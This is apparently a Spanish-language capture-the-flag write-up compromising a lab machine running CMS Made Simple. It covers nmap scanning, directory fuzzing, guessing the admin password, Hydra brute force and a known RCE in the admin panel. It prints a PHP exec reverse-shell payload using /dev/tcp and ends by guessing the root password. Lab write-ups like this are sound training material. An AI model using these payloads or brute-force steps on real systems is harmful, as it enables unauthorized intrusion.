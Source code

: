 - Tags: #cmsMadeSimple #hydra #fuerzaBruta 
______
comenzamos la maquina escaneando la IP con nmap.

```shell
nmap -p- --open -sS --min-rate 5000 -n -Pn 172.17.0.2 -oG allport
```

para después escanear los puertos reportados como abiertos con la finalidad de conocer la versión y servicio de dichos puertos.

```shell
nmap -p <puertos_Abiertos> <direccion_ip> -sCV -oN target
```

obtenemos lo siguiente.
___
![](attachment/db74e909878a72c2d885ced78db88aa2.png)
___
tenemos el puerto 80 (http) y 22 (ssh) abiertos, por lo que ahora veremos que encontramos en la pagina web.
______
![](attachment/61b302af76868d492de4574d6d209c81.png)
______
tenemos un apache2 recien instalado, por lo que aplicaremos fuzzing para ver que directorios tenemos.
____
![](attachment/b3ae3010aafa54602ef3d70e0b7f5f04.png)
____
no encontramos nada que nos pueda servir por lo que investigaremos el código fuente para ver que encontramos.
____
![](attachment/dfb7898a08cbe3da7adfa8f6f2101b2f.png)
___
tenemos lo que parece ser una ruta /cmsms, probemos en la url.
____
![](attachment/9762b4c75eb8a1087f47f44c4167001b.png)
______
tenemos otra web la cual, investiguemos el entorno y veamos que encontramos.
_____
![](attachment/698a334f335fd96199fee18bb5f08ba9.png)
____
obtenemos la versión de CMS, si buscamos vulnerabilidades la mayoría tiene como requisito estar autenticado en la web, por lo que debe de haber un panel de login.

apliquemos fuzzing y veamos que nos reporta.
_____
![](attachment/881c5e36d4f553ff8bc01232bd44bdbe.png)
____
encontramos el panel de login, podemos acceder y probar credenciales por defecto.
______
![](attachment/7248e94481cf27b7b9368f97344d1acf.png)
_____
probando credenciales como admin:admin nos denegaba la entrada, pero recordé un patrón muy importante y es que esta maquina fue creada por el pinguino de mario y tras haber realizado varias maquina del anteriormente mencionado, existe un patrón conocido y es que casi todas sus contraseña son chocolate por lo que no podía faltar probar admin:chocolate.
______
![](attachment/7c2e9df62837b644d6bd8137a56c2dae.png)
______
no podía creer que había funcionado.

también existe otra forma de obtener la credencial, podemos aplicar fuerza bruta con hydra al panel de login, usando BurpSuite para capturar la petición y poder extraer los valores necesarios para poder aplicar la fuerza bruta.

la datos son:

1) ruta donde se encuentra el panel de login
2) los valores que componen el panel de login
3) el error que arroja el panel de login cuando las credenciales son incorrectas.
_____
![](attachment/4bc3eea1886493ea29802c64b613ca89.png)
_____
y de esta forma obtenemos las credenciales, ahora podemos recurrir a las vulnerabilidades registradas para la versión del CMS y ver que logramos.

yo puede explotar un RCE siguiendo los pasos que me dio un fichero .txt al buscar con searchsploit.
______
![](attachment/e08ea2ddde6fc92829ddb0191cb5c20e.png)
_____
aunque es de una versión anterior funciono perfectamente, aquí su contenido.
_____
![](attachment/2cc1c8c410125aa663cb8c1e39964353.png)
______
nos dice que la vulnerabilidad se encuentra en panel de administrador, en el apartado de extensiones.
____
![](attachment/12ea3f0bac379e0a82cbc10cb29bd88d.png)
_____
si accedemos ahí encontraremos un apartado que nos permite ejecutar código.
____
![](attachment/68e87bbf338cab1affcc6ad1e99b862d.png)
_____
podemos borrar su contenido para agregar el siguiente payload.

```shell
exec("/bin/bash -c 'bash -i > /dev/tcp/192.168.56.1/4444 0>&1'");
```

se configura según tu IP y puerto, una vez configurado debemos de darle al botón de run para que se ejecute el código, de esta forma podremos ganar acceso a la maquina.

también existe otra forma de hacerlo y podemos encontrar la referencia en la siguiente pagina.

web: https://packetstormsecurity.com/files/177241/CMS-Made-Simple-2.2.19-2.2.21-Remote-Code-Execution.html

ya que sabemos como explotar la vulnerabilidad podemos seguir con la post-explotación.

accedemos a la maquina y aplicamos el tratamiento de la tty y procedemos a realizar reconocimiento del sistema.

tenemos un usuario cms, también tenemos acceso a una base de datos.
_____
![](attachment/48cdac322f46a916edb122cb6e26d2e7.png)
______
para pivotar al usuario root podemos utilizar un script del pinguino de mario que nos permite realizar un ataque de fuerza bruta a los usuarios del sistema.

pero como ya conté al inicio de este reporte, mario tiene un patrón para sus contraseñas por lo que si usamos chocolate como contraseña para root podremos convertirnos en root con éxito  
____
![](attachment/dbe2c13eca291a256f3aef37d940426c.png)
____




